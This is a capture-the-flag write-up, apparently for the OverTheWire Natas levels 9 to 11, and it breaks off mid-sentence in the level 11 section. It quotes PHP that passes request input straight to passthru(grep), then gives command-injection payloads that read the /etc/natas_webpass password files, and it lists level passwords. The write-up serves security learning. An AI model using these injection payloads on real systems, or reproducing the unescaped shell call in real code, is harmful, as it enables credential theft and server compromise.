 ## 9 needle in a haystack - nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

View the source to see it uses the input to set variable $key and issue this command:

```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

It's sort of like sql injection, if you post this: `foo /dev/null; cat /etc/natas_webpass/natas9; wc -l` you get it to write the contents of /etc/natas_webpass/natas9 and you get the flag

## 10 filtered needle on a haystack - U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

Same as before, but now they got a little smarter on linting the input:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

We can use dashes though, so just post this to bypass the linting: `-e ".*" /etc/natas_webpass/natas11`

## 11 In da Crib -

Key to solving this challenge is knowing that XOR crypts are vulnerable to KPA (Known Plaintext Attacks), such that:
